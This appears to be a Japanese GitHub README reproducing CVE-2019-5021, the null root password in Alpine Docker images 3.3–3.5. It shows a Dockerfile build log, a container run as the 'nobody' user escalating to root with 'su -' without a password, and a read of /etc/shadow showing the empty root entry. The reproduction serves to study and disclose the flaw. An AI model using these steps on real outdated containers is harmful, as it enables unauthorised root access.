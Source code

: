 # alpineイメージのrootパスワードがnullだった件(cve-2019-5021)
alpineイメージ (v3.3 - v3.5) のrootパスワードがnullだった脆弱性。
デフォルトの`/bin/su`はbusyboxへのシンボリックリンクでsuidされていない。`shadow`パッケージをインストールすると`/bin/su`もsuidされるため、以下のようにこの脆弱性の影響を確認することができる。

まず`Dockerfile`からイメージをbuildする。
```
$ docker build -t cve-2019-5021:1 .
Sending build context to Docker daemon  3.072kB
Step 1/2 : FROM alpine:3.5
 ---> f80194ae2e0c
Step 2/2 : RUN apk update && apk add shadow
 ---> Running in 0bd5a51ac649
fetch http://dl-cdn.alpinelinux.org/alpine/v3.5/main/x86_64/APKINDEX.tar.gz
fetch http://dl-cdn.alpinelinux.org/alpine/v3.5/community/x86_64/APKINDEX.tar.gz
v3.5.3-40-g389d0b359a [http://dl-cdn.alpinelinux.org/alpine/v3.5/main]
v3.5.3-40-g389d0b359a [http://dl-cdn.alpinelinux.org/alpine/v3.5/community]
OK: 7963 distinct packages available
(1/2) Installing linux-pam (1.2.1-r0)
(2/2) Installing shadow (4.2.1-r8)
Executing busybox-1.25.1-r2.trigger
OK: 6 MiB in 13 packages
Removing intermediate container 0bd5a51ac649
 ---> b2ac47c6d945
Successfully built b2ac47c6d945
Successfully tagged cve-2019-5021:1
```

uid:65534(nobody)を指定してbuildしたイメージからコンテナを起動する。
`su -`コマンドでrootのパスワードを聞かれずにrootになれる。
```
$ docker container run --user 65534:65534 -it cve-2019-5021:1
~ $ id
uid=65534(nobody) gid=65534(nobody)
~ $ su -
c40b869c5be7:~# id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
c40b869c5be7:~# 
```

`/etc/shadow`を見てみると確かにrootのパスワードが設定されていない。
```
c40b869c5be7:~# grep root /etc/shadow
root:::0:::::

```
